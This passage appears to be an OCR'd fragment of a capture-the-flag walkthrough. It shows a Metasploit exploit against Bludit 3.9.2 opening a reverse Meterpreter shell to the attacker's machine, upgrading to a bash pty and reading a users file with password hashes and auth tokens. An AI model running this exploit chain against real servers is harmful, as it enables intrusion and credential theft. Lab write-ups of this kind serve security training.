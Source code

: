 ~~~
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2


msf5 exploit(linux/http/bludit_upload_images_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.92:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading DJsKaxmuhq.png...
[*] Uploading .htaccess...
[*] Executing DJsKaxmuhq.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.92:4444 -> 10.10.10.191:35220) at 2020-06-10 11:47:19 +0200
[+] Deleted .htacces

meterpreter > getuid
Server username: www-data (33)
meterpreter > shell
Process 7737 created.
Channel 2 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c "import pty;pty.spawn('/bin/bash')"

ww-data@blunder:/var/www/bludit-3.9.2/bl-content$ cat databases/users.php
cat databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
~~~
